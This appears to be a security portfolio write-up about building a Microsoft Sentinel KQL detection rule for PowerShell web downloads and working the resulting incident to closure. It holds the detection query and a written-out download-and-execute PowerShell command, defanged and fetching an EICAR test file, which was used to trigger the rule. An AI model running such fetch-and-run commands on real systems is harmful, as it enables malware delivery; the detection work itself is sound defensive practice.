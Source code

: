 # Project: Creating a Sentinel Detection Rule for Malicious Downloads

### 1. Project Objective

This project demonstrates the end-to-end process of creating a custom detection rule in Microsoft Sentinel and then working the resulting incident to completion. The goal was to design a query that detects when PowerShell's `Invoke-WebRequest` command is used to download remote files, a common tactic used by attackers for post-exploitation activities.

---

### 2. Detection Rule Creation & Configuration

#### The Detection Logic
A KQL (Kusto Query Language) query was designed to search the `DeviceProcessEvents` table for any command-line activity involving PowerShell and the `Invoke-WebRequest` cmdlet (or its common aliases `iwr` and `wget`).

**The KQL Query:**
```kql
DeviceProcessEvents
| where TimeGenerated between (datetime(2025-06-06T04:49:00Z) .. datetime(2025-06-07T04:38:00Z)) // Pinned time range for report integrity. A live rule would use: | where TimeGenerated >= ago(24h)
| where (FileName contains "powershell.exe" or FileName contains "pwsh.exe") 
  and (ProcessCommandLine contains "Invoke-WebRequest" or ProcessCommandLine contains "iwr" or ProcessCommandLine contains "wget")
| project TimeGenerated, AccountName, DeviceName, FileName, InitiatingProcessCommandLine, ProcessCommandLine
| sort by TimeGenerated desc

```

#### Sentinel Rule Configuration
In Microsoft Sentinel, this KQL query was used to create a new Scheduled Analytics Rule with the following settings:

* **Query Scheduling:** Run query every 4 hours, looking up data from the last 24 hours.
* **Entity Mapping:** To enable automatic incident correlation and investigation features, the following entities were mapped from the query's output columns:
  
| Entity  | Identifier  | Mapped KQL Column  |
| :------ | :---------- | :------------------|
| Account | Name        | `AccountName`        |
| Host    | HostName    | `DeviceName`         |
| Process | CommandLine | `ProcessCommandLine` |

### 3. Simulating the Attack & Triggering the Alert
To validate the rule, a command was executed on a test virtual machine to simulate an attacker downloading a payload. This command downloads the harmless EICAR test file and then executes it. Although the download is harmless the URI was defanged as a good practice.

```powershell
# Download the script
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri 'hxxps://raw[.]githubusercontent[.]com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/eicar[.]ps1' -OutFile 'C:\programdata\eicar.ps1';

# Execute the script
powershell.exe -ExecutionPolicy Bypass -File 'C:\programdata\eicar.ps1';
```

---
### 4. Incident Response (Following NIST 800-61)
The simulation successfully triggered the "Z-PowerShell Suspicious Web Request" incident in Sentinel. The incident was triaged and worked to completion following the NIST Incident Response Lifecycle.

#### Detection and Analysis
The triggered alert showed that over a 24-hour period, 35 machines had downloaded suspicious scripts from a GitHub repository. The most notable scripts were:

* `portscan.ps1`
* `pwncrypt.ps1`
* `eicar.ps1`
* `exfiltratedata.ps1`

The malware analysis team provided a one-liner for each script's purpose:

* `exfiltratedata.ps1`: A script that compresses user data for theft and exfiltration.
* `portscan.ps1`: A reconnaissance script used to scan a network for open ports.
* `pwncrypt.ps1`: A ransomware script designed to encrypt a victim's files for extortion.
* `eicar.ps1`: A harmless test file to verify antivirus detection.

#### Containment, Eradication, and Recovery
* **Containment:** All 35 affected devices were immediately isolated using Microsoft Defender for Endpoint to prevent any further damage or lateral movement.
* **Eradication:** An antivirus scan was initiated on all isolated devices.
* **Recovery:** A plan was put in place with the IT team to reimage all affected machines to ensure they are restored to a known-good state.

#### Post-Incident Activities
The investigation revealed that the activity was likely triggered by a coordinated phishing campaign.

* **User Training:** Worked with management to facilitate a phishing training exercise, as several users reported clicking a suspicious email regarding bonuses.
* **Policy Hardening:** Began the implementation of a new security policy to restrict the use of PowerShell for all non-essential users, reducing the attack surface.
* **Case Closure:** The incident was officially closed in Sentinel as a True Positive.
